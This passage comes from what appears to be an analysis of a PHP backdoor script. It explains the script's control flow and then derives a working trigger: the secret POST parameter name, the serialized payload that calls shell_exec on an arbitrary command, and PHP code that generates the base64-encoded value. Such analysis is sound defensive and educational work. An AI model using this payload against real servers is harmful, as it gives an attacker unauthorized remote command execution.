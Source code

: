 Now that we understand what each function is doing, let us go through the
top-level code that will be executed.

You can follow along in
`scripts/script-kidding/i_am_not_a_backdoor_script_formatted.php`.

* **l. 1-6**: suppress error logs, remove execution time limit.
* **l. 7-51**: declare functions
* **l. 52-60**: for each cookie, call `decode_and_unserialize` with its value
  decoded from base64 and its key, and stop if returned result is true-ish.
  Store the result in `$payload`.
* **l. 61-69**: if `$payload` is still `false`, do the same for `POST`
  parameters.
* **l. 70-78**: if `$payload` does not include an `ak` key or this key is
  false-ish, set `$payload` to an empty array.
* **l. 79-94**: otherwise, if `$payload['a'] == "e"`, call `exec()` on
  `$payload['d']`.

We can now deduce the requirements to execute this backdoor using a bottom-up
approach. First, we will deduce what the `$payload` variable should be:

* `$payload`'s `'d'` should be the code we want to execute:
  ```injectablephp
  $payload = [
      'd' => 'echo shell_exec("ANY_SHELL_COMMAND");'
  ];
  ```
* `$payload`'s `'a'` should be `'e'`:
  ```injectablephp
  $payload = [
      'a' => 'e',
      'd' => 'echo shell_exec("ANY_SHELL_COMMAND");'
  ];
  ```
* `$payload`'s `'ak'` should be true-ish:
  ```injectablephp
  $payload = [
      'ak' => 1
      'a' => 'e',
      'd' => 'echo shell_exec("ANY_SHELL_COMMAND");'
  ];
  ```

Now, we can choose to take this payload either from the request cookies or from
the `POST` parameters. Let us take it from the `POST` parameters.

As previously noted, `decode_and_unserialize` will unserialize any `$value` to a
PHP object provided the `$key` is equal to
`"4ef63abe-1abd-45a6-913d-6fb99657e24b"`.

Thus, we will set a `POST` parameter named
`4ef63abe-1abd-45a6-913d-6fb99657e24b` and pass it a base64 encoding of a
serialization of the `$payload` we need.

This can be generated with the following PHP code:
```injectablephp
<?php

$command = "ANY_SHELL_COMMAND";
$payload = ['ak' => 1, 'a' => 'e', 'd' => "echo shell_exec(\"$command\");"];

print_r([
    'POST parameter name' => '4ef63abe-1abd-45a6-913d-6fb99657e24b',
    'POST parameter value' => base64_encode(serialize($payload))
]);
```
